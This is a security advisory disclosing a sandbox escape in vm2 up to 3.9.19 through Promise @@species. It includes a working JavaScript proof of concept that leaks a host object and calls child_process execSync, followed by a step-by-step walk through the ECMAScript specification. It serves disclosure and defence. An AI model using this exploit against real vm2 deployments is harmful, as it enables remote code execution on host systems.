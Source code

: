 # Sandbox Escape in vm2@3.9.19 via `Promise[@@species]`

##
#
https://github.com/advisories/GHSA-cchq-frgv-rjh5
#
##


## Summary

In vm2 for versions up to 3.9.19, `Promise` handler sanitization can be bypassed with `@@species` accessor property allowing attackers to escape the sandbox and run arbitrary code.


## Proof of Concept

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```


## Analysis

As host exceptions in async context (`Promise`) may leak host objects into the sandbox, `Promise.prototype.then` is overridden with a Proxy to sanitize arguments before calling user-provided onRejected handler (commit [f3db4de](https://github.com/patriksimek/vm2/commit/f3db4dee4d76b19869df05ba7880d638a880edd5)).

ES2022 spec for [27.2.5.4 Promise.prototype.then](https://tc39.es/ecma262/2022/multipage/control-abstraction-objects.html#sec-promise.prototype.then) specifies the following steps concerning `@@species` (`Symbol.species`):

```
3. Let C be ? SpeciesConstructor(promise, %Promise%).
4. Let resultCapability be ? NewPromiseCapability(C).
5. Return PerformPromiseThen(promise, onFulfilled, onRejected, resultCapability).
```

[27.2.1.5 NewPromiseCapability ( C )](https://tc39.es/ecma262/2022/multipage/control-abstraction-objects.html#sec-newpromisecapability) allows a new constructor defined as the value of `@@species` accessor property to be used, where a single argument `executor` is passed to the constructor. `executor` is a closure that receives two handlers `resolve`, `reject` and sets each of the values to `resultCapability.[[Resolve]]` and `resultCapability.[[Reject]]`.

This is used in [27.2.5.4.1 PerformPromiseThen](https://tc39.es/ecma262/2022/multipage/control-abstraction-objects.html#sec-performpromisethen), where steps below define `promise.[[PromiseState]]` `rejected` case:

```
8. Let rejectReaction be the PromiseReaction { [[Capability]]: resultCapability, [[Type]]: Reject, [[Handler]]: onRejectedJobCallback }.
9. If promise.[[PromiseState]] is pending, then ...
10. Else if promise.[[PromiseState]] is fulfilled, then ...
11. Else,
    a. Assert: The value of promise.[[PromiseState]] is rejected.
    b. Let reason be promise.[[PromiseResult]].
    c. If promise.[[PromiseIsHandled]] is false, perform HostPromiseRejectionTracker(promise, "handle").
    d. Let rejectJob be NewPromiseReactionJob(rejectReaction, reason).
    e. Perform HostEnqueuePromiseJob(rejectJob.[[Job]], rejectJob.[[Realm]]).
```

[27.2.2.1 NewPromiseReactionJob ( reaction, argument )](https://tc39.es/ecma262/2022/multipage/control-abstraction-objects.html#sec-newpromisereactionjob) specifies the following steps, emphasis wrapped in double asterisks (`**`):

```
1. Let job be a new Job Abstract Closure with no parameters that captures reaction and argument and performs the following steps when called:
    a. Let promiseCapability be reaction.[[Capability]].
    b. Let type be reaction.[[Type]].
    c. Let handler be reaction.[[Handler]].
    d. **If handler is empty, then**
        i. If type is Fulfill, let handlerResult be NormalCompletion(argument).
        ii. Else,
            1. Assert: type is Reject.
            2. **Let handlerResult be ThrowCompletion(argument).**
    e. Else, let handlerResult be Completion(HostCallJobCallback(handler, undefined, « argument »)).
    f. If promiseCapability is undefined, then
        i. Assert: handlerResult is not an abrupt completion.
        ii. Return empty.
    g. Assert: promiseCapability is a PromiseCapability Record.
    h. **If handlerResult is an abrupt completion, then**
        i. **Return ? Call(promiseCapability.[[Reject]], undefined, « handlerResult.[[Value]] »).**
    i. Else,
        i. Return ? Call(promiseCapability.[[Resolve]], undefined, « handlerResult.[[Value]] »).
```

Thus, we can abuse this and leak host object into the sandbox with the following steps:

1. Call an asynchronous function that throws a host exception, returning a (rejected) `Promise` object.
2. Overwrite the `Promise` object's `constructor` with an object defining `Symbol.species` property, where value is:
   1. Constructor receiving `executor` closure and calling it with `resolve` and (malicious) `reject` handler
3. Call `then()` method of the `Promise` object with `onRejected` handler `undefined`.

Note that the absence (`empty`ness) of `onRejected` handler is not a necessary condition for exploitation. Assuming that this is not `empty`, let us revisit `NewPromiseReactionJob`:

```
1. Let job be a new Job Abstract Closure with no parameters that captures reaction and argument and performs the following steps when called:
    ...
    d. If handler is empty, then
        ...
    e. **Else, let handlerResult be Completion(HostCallJobCallback(handler, undefined, « argument »)).**
    ...
    g. Assert: promiseCapability is a PromiseCapability Record.
    h. **If handlerResult is an abrupt completion, then**
        i. **Return ? Call(promiseCapability.[[Reject]], undefined, « handlerResult.[[Value]] »).**
    i. Else,
        i. Return ? Call(promiseCapability.[[Resolve]], undefined, « handlerResult.[[Value]] »).
```

Thus if attacker provides an `onRejected` handler that throws host exception, calling this handler in step 1.e will throw and return an abrupt completion `handlerResult` with `handlerResult.[[Value]]` set to the host exception leaking into `promiseCapability.[[Reject]]` provided by the attacker-controlled `@@species` constructor.


## Impact

Remote Code Execution, assuming the attacker has arbitrary code execution primitive inside the context of vm2 sandbox.


## Reference

- [ECMAScript® 2022 Language Specification](https://tc39.es/ecma262/2022)
- [Promise\[@@species\] MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/@@species)

## Credits

[Xion](https://twitter.com/0x10n) (SeungHyun Lee) of [KAIST Hacking Lab](https://kaist-hacking.github.io/)
